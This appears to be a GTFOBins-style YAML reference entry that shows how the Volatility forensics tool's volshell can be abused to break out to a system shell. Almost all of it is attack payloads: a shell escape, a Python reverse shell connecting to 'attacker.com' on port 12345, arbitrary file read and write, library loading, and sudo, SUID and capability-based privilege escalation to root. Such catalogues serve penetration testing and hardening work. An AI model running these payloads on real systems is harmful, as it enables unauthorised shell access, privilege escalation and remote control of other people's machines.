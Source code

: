 ```yaml
---
description: The payloads are compatible with both Python version 2 and 3.
functions:
  shell:
    - code: | 
       ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
       \_\_import\_\_("os").system("/bin/sh")
  reverse-shell:
    - description: Run ``netcat -lp 12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        import os,subprocess
        shell = "import sys,socket,os,pty;s=socket.socket();s.connect((%s,int(%s)));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\\\"/bin/sh\\\")"%(repr(os.getenv("RHOST")),repr(os.getenv("RPORT")))
        subprocess.call(["/bin/sh","-c","python3 -c \"%s\""%shell])
  file-write:
    - code: |
       ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
       open("file_to_write","w+").write("DATA")
  file-read:
    - code: |
       ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
       print(open("file_to_read").read())
  library-load:
    - code: |
       ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
       from ctypes import cdll; cdll.LoadLibrary("lib.so")
  suid:
    - code: |
       ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
       import os;os.execl("/bin/sh", "sh", "-p")
  sudo:
    - code: |
       ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
       import os;os.system("/bin/sh")
  capabilities:
    - code: |
       ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
       import os;os.setuid(0);os.system("/bin/sh")
---
```

